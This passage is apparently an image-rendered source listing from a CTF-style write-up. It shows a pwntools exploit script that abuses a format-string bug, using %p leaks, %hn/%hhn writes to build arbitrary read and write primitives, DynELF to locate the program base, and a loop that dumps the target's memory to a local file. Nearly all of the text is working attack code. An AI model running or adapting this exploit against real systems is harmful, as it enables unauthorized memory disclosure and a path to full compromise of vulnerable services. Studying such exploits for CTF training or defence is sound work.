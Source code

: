     delta = ptr - stack_leak
    return delta//8

_cursor = int(f("%39$p"), 16)
def cursor(ptr):
    global _cursor
    delta = _cursor ^ ptr
    if delta > 0xffff:
        log.error("Bad ASLR")
        exit()
    if delta > 0xff:
        payload = "%{}c".format(ptr & 0xffff)
        payload+= "%11$hn"
    else:
        payload = "%{}c".format(ptr & 0xff)
        payload+= "%11$hhn"
    f(payload)
    _cursor = ptr

_cursor2 = 0
def cursor2(ptr):
    global _cursor2
    ptr_base = stack_leak+(40-1)*8
    delta = _cursor2 ^ ptr
    i = 0
    while delta:
        cursor(ptr_base+i)
        payload = "%{}c".format(ptr & 0xffff)
        payload+= "%39$hn"
        f(payload)
        ptr >>= 16; delta >>= 16; i+=2
    _cursor2 = ptr

def arb_read(ptr):
    cursor2(ptr)
    return f("%40$s")

# PIE reference
pie_leak = int(f("%66$p"), 16)

# Do stuff
d = DynELF(arb_read, pie_leak)
pie_base = d.libbase
log.info("pie_base: {:#x}".format(pie_base))

with open("/tmp/dump", "r") as _f:
    prog = len(_f.read())

while True:
    with open("/tmp/dump", "a") as _f:
        log.info("Progress: {:x}".format(prog))
        data = arb_read(pie_base+prog)+'\x00'
        _f.write(data)
        prog += len(data)
{% endhighlight %}
